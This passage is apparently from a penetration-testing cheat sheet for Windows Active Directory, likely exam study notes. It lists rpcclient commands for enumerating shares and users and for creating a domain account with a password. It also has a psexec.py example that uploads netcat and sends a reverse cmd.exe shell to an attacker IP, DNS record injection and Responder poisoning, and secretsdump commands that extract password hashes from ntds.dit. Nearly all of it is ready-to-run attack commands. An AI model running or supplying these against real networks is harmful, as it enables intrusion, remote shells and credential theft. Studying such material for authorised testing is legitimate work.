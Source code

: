 ```shell
rpcclient $> netshareenumall
# Details of share
rpcclient $> netsharegetinfo <sharename>
# Lookup username to RID
rpcclient $> samlookupnames domain <username>
# Lookup RID to username
rpcclient $> samlookuprids domain <RID>
# Query LSA policy
rpcclient $> lsaquery
# Create a new user
rpcclient $> createdomuser <username>
# Set new user's password <level>:USER_INFORMATION_CLASS number e.g., 24 (https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/6b0dff90-5ac0-429a-93aa-150334adabf6?redirectedfrom=MSDN)
rpcclient $> setuserinfo2 <username> <level> <password>
# installed and share printers
rpcclient $> enumprinters
```

### :open_file_folder: [Psexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py)

[Microsoft PsExec Tool](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) (```ADMIN$```)

get interactive shell on the Windows host (```ADMIN$``` or ```C$``` must be writeable)

```shell
psexec.py <domain>/<username>:'<password>'@<target ip>
# example
psexec.py punipunidenki.local/administrator:'f!wef23424;'@192.168.9.100 "-e cmd.exe 192.168.9.123 4444" -c ~/Documents/nc.exe
# -c pathname copy the filename for later execution, arguments are passed in the command option
```

### :open_file_folder: [Krbrelayx](https://github.com/dirkjanm/krbrelayx)

```shell
# add AD Integrated DNS records
python3 dnstool.py -u '<domain>\<username>' -p <password> <target ip> -a add -r <TARGETRECORD> -d <attacker ip> -t A
# get information in a few minutes 
sudo responder -I tun0 # poisoning and spoofing are not allowed in the labs or on the exam
```

### :open_file_folder: Extracting

[secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py): extracting the password hash from ntds.dit

```shell
# 1
secretsdump.py -ntds /tmp/ntds.dit -system /tmp/SYSTEM local -outputfile /tmp/ADHashes.txt
# 2
impacket-secretsdump <username>:<password>@<domain or IP> -dc-ip <domain controller ip>
```
